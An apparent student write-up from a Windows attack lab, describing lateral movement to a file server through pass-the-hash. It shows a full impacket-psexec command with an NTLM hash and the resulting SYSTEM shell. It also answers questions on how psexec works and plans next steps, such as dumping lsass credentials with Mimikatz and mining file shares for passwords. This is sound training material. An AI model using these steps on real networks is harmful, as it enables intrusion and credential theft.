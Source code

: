 # Windows Attack Lab - Step 6A - Lateral Movement to FS1 via Domain User

## Author
* Knöpfel, Daniel
* Duijts, Michael

## Methodology

On Kali Linux execute psexec from impacket collection. Goal: Connect to FS1 with pass-the-hash.  

```bash
─$ impacket-psexec -hashes :9859340265d3b3c1eb628ece70ebc238 winattacklab.local/aalfort@10.0.1.101
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.0.1.101.....
[*] Found writable share ADMIN$
[*] Uploading file pOCRUGEb.exe
[*] Opening SVCManager on 10.0.1.101.....
[*] Creating service gXAn on 10.0.1.101.....
[*] Starting service gXAn.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.3287]
(c) 2018 Microsoft Corporation. All rights reserved.
```

Cmd prompt after connecting to FS1, verification this prompt is from FS1:
```
C:\Windows\system32> hostname
FS1

C:\Windows\system32> whoami
nt authority\system
```

Mark FS1 as owned doesn't help to find a path to a Domain Admin.
![bloodhount-shortest-path](Media/01-bloodhound-shortest-path.png)

## Answers

* Where did you get the NTLM hash of user Aalfort from?
  * From last exercise (maintaining access)
  * With privilege escalation a local admin was created to use Mimikatz
  * With Mimikatz lsass was read to get the NTLM hash of Aalfort (Aalfort had an active session)
* How does psexec execute your commands on the remote machine (under-the-hood)?
  * psexec uses default shares ($ADMIN) of target pc to upload psexesvc
  * Then a service is remotely created on target with uploaded psexesvc
  * Remotely start service
  * With this service it's possible to forward commands to target pc and output will be redirected to the attacker client
  * (When stopping psexec the service will be stopped and removed)
* How does psexec authenticate against the remote machine?
  * Using the ntlm hash of Aalfort for pass-the-hash
  * Pass-the-hash has to be supported by the application because usually the application creates the hash after getting a password. Tools like `impacket-psexec` support to directly use the hash.
* Does PsExec pass the hash?
  * Yes
* What is the next logical step in your attack?
  * No direct "shortest path to Domain Admin" is found in Bloodhound
  * Dump credentials from lsass on FS1
    * DDrake has an active session on FS1
  * Because it's a fileserver there's a lot of data
    * Analyse this data to perhaps get credentials from scripts, word documents etc.
  * Next target could be WS1 because a Domain Admin (Ffast) has an active session on this server
    * But at this moment no path to WS1 is known